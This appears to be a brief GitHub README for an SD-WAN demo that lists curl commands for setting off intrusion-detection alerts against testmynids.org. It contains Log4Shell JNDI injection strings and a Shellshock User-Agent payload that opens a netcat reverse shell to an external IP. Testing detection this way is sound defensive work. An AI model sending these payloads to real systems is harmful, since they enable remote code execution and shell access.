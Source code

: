 # sdwan
sdwan related


kalpoipolpmi.net


# This is DoS log4j
curl -A '${${::-${::-$${::-j}}}}' "http://testmynids.org/uid/index.html" 

curl -A '${${lower:jndi}:${lower:rmi}://127.0.0.1:1389/poc}' "http://testmynids.org/uid/index.html" 

# This is Shell shock
curl -A '() { :;}; /bin/bash -c 'nc 192.168.234.166 1337 -e /bin/sh'' "http://testmynids.org/uid/index.html" 
![image](https://github.com/nsxdemo/sdwan/assets/63232591/07844a4e-07c8-4895-9f46-c4345d6e75ef)
